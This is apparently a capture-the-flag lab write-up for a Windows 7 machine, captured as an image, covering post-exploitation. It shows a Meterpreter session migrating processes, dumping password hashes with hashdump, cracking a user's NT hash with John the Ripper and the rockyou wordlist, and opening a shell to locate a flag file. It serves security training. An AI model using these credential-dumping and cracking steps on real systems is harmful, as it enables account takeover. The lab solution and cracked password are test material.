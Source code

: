 meterpreter > migrate 684
[*] Migrating from 2904 to 684...
[*] Migration completed successfully.
meterpreter > whoami
[-] Unknown command: whoami
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter > 

6. non-user ID - JON

7. Crack the hash using hashcat or john

┌──(kali㉿kali)-[~/ken/blue]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)     
1g 0:00:00:00 DONE (2022-08-09 23:58) 2.222g/s 22667Kp/s 22667Kc/s 22667KC/s alqui..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
                                                                                                                     
┌──(kali㉿kali)-[~/ken/blue]
└─$ 

8. Access the C: directory and find the flag1.txt

meterpreter > pwd
C:\Windows\system32
meterpreter > cd ..
meterpreter > cd ..
meterpreter > shell
Process 1756 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\

03/17/2019  02:27 PM                24 flag1.txt
07/13/2009  10:20 PM    <DIR>          PerfLogs
04/12/2011  03:28 AM    <DIR>          Program Files
03/17/2019  05:28 PM    <DIR>          Program Files (x86)
12/12/2018  10:13 PM    <DIR>          Users
08/09/2022  10:39 PM    <DIR>          Windows
               1 File(s)             24 bytes
               5 Dir(s)  20,317,159,424 bytes free
